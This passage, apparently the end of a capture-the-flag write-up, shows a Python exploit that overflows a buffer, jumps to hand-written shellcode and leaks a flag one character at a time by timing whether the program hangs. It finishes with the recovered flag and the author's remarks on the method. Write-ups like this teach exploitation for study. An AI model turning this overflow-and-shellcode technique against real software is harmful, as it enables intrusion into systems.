 ``` python
        shellcode = b"\x49\x83\xC5\x05" + b"\x41\x0f\xb6\x45"+ chr(i).encode() + b"\x3c" + chr(j).encode() + b"\x0f\x85\xf6\x11\x40\x00\x48\x31\xf6\x56\x6a\x03\x54\x5f\x6a\x23\x58\x0f\x05\xe9\xe4\x11\x40\x00"

        payload = b'A' * 0x48 + p64(0x4011c4) + shellcode

        start_time = time.time()
        p.sendline(payload)
        p.recvall()
        aprox = time.time() - start_time

        if aprox > 2:
            with open('success', 'a+') as file:
                file.write(chr(j))
                if chr(j) == '}':
                    sys.exit()
                break
```

After some time, the program started to hang on some characters and they were written to the file. Finally, I got:

> {4ss3mbLY

If we add 5 more bytes to the r13 register, we get:

> mbLY!}

Knowing that the flag started with DEKRA give us the final flag:

> DEKRA{4ss3mbLY!}

Pwned!

---

*I know that assembly can be upgraded and that there are ways to dump the flag just in 1 execution but I explain here my thinking process. It's not, by far, a final good solution but that's not the purpose of these writeups. I just try to explain the process of how I manage to get the solution*
